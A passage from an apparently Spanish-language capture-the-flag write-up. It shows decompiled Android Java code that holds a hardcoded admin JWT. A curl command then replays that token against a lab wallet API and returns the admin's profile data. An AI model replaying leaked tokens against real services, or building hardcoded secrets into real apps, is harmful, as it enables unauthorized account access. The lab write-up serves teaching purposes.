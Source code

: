 ```java
        new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/view/profile").addHeader("Authorization", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA").build()).enqueue(new Callback() { // from class: com.instantlabs.instant.AdminActivities.1
            static final /* synthetic */ boolean $assertionsDisabled = false;

            @Override // okhttp3.Callback
            public void onFailure(Call call, IOException iOException) {
                System.out.println("Error Here : " + iOException.getMessage());
            }

            @Override // okhttp3.Callback
            public void onResponse(Call call, Response response) throws IOException {
                if (response.isSuccessful()) {
                    try {
                        System.out.println(JsonParser.parseString(response.body().string()).getAsJsonObject().get("username").getAsString());
                    } catch (JsonSyntaxException e) {
                        System.out.println("Error Here : " + e.getMessage());
                    }
                }
            }
        });
        return "Done";
    }
}
```

Si le hacemos una petición con cURL a esa URL con el token, funciona:

```bash
❯ curl -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" -v http://mywalletv1.instant.htb/api/v1/view/profile
* Host mywalletv1.instant.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.37
*   Trying 10.10.11.37:80...
* Connected to mywalletv1.instant.htb (10.10.11.37) port 80
* using HTTP/1.x
> GET /api/v1/view/profile HTTP/1.1
> Host: mywalletv1.instant.htb
> User-Agent: curl/8.11.1
> Accept: */*
> Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 28 Feb 2025 14:31:51 GMT
< Server: Werkzeug/3.0.3 Python/3.12.3
< Content-Type: application/json
< Content-Length: 236
< 
{"Profile":{"account_status":"active","email":"admin@instant.htb","invite_token":"instant_admin_inv","role":"Admin","username":"instantAdmin","wallet_balance":"10000000","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},"Status":200}
```
